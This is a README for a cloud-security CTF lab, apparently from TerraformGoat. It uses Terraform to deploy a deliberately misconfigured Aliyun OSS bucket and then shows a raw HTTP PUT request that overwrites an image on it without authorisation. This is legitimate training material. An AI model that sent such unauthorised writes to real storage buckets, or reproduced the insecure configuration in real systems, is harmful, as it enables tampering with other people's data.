 # Description

English | [中文](./README_CN.md)

This is a script to help you quickly build storage buckets for unauthorized uploads, have fun!

## Deployment environment

### Git clone

```bash
cd /TerraformGoat/aliyun/unrestricted_file_upload/ 
```

```bash
terraform init
```

![image-20220425192835507](../../../images/image-20220425192835507.png)

```bash
terraform apply
```

![image-20220425192251992](../../../images/image-20220425192251992.png)

If you confirm that there is no problem, type yes and wait for the build

![image-20220425192314435](../../../images/image-20220425192314435.png)

## Get Flag

Visit /hx.png to get the image

![image-20220425192605952](../../../images/image-20220425192605952.png)

This image can be overwritten by using the PUT method

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

![image-20220425192622938](../../../images/image-20220425192622938.png)

Afterwards, we use the GET method to get the contents of our overwritten

![image-20220425192649111](../../../images/image-20220425192649111.png)

## Destruction Challenge

```bash
terraform destroy
```

![image-20220425192403147](../../../images/image-20220425192403147.png)
